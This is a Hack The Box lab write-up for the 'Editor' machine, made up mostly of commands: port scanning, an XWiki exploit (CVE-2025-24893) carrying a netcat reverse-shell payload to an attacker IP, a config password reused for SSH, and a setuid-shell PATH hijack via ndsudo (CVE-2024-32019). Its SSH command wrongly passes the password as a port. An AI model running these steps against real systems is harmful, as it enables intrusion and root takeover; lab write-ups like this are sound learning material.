 ### Hack The Box Writeup: Editor

## Overview

- **Machine Name**: Editor
- **Difficulty**: Easy
- **Platform**: Hack The Box
- **Operating System**: Linux
- **Key Objectives**: 
- **Date Solved**: August 2025

## Tools Used

- **Enumeration**: 
- **Exploitation**: 
- **Privilege Escalation**: 
- **Other**: 

## Methodology

### Initial Enumeration

```bash
ping -c 1 10.10.11.80

nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn -oG allPorts 10.10.11.80
nmap -sCV -p22,80,8080 -oN targeted 10.10.11.80

# /etc/hosts
10.10.11.80 editor.htb

whatweb http://10.10.11.80:80

```

### Exploitation
```bash
# CVE-2025-24893
git clone https://github.com/gunzf0x/CVE-2025-24893

# usage
$ python3 CVE-2025-24893.py -t 'http://example.com:8080' -c 'busybox nc 10.10.10.10 9001 -e /bin/bash'

nc -nlvp 443

python3 CVE-2025-24893.py -t 'http://10.10.11.80:8080' -c 'busybox nc 10.10.16.31 443 -e /bin/bash'

find /usr/lib/xwiki -name "*.xml"
# ans
    <property name="hibernate.connection.url">jdbc:mysql://localhost/xwiki?useSSL=false&amp;connectionTimeZone=LOCAL&amp;allowPublicKeyRetrieval=true</property>
    <property name="hibernate.connection.username">xwiki</property>
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.driver_class">com.mysql.cj.jdbc.Driver</property>
    <property name="hibernate.dbcp.poolPreparedStatements">true</property>
    <property name="hibernate.dbcp.maxOpenPreparedStatements">20</property>

    <property name="hibernate.connection.charSet">UTF-8</property>
    <property name="hibernate.connection.useUnicode">true</property>
    <property name="hibernate.connection.characterEncoding">utf8</property>

ssh oliver@10.10.11.80 -p theEd1t0rTeam99

cat user.txt


```

### Privilege Escalation

```bash
uname -r
# ans
5.15.0-151-generic

find / -type f -perm /4000
# ans
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo

https://github.com/AzureADTrent/CVE-2024-32019-POC

# Creating file

```
```c
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
```bash
# compiling
gcc poc.c -o nvme

# Sending file
<>
nc -nlvp 3636 > nvme-list # victims machine
nc 10.10.11.80 3636 < nvme # attacker machine

chmod +x nvme-list # in /tmp dir
export PATH=/tmp:$PATH

./ndsudo nvme-list

```
## Challenges Faced


## Lessons Learned

- CVE-2024-32019

## References


---

*Written by YourName, 08.2025. Feedback welcome at github.com/edibauer.*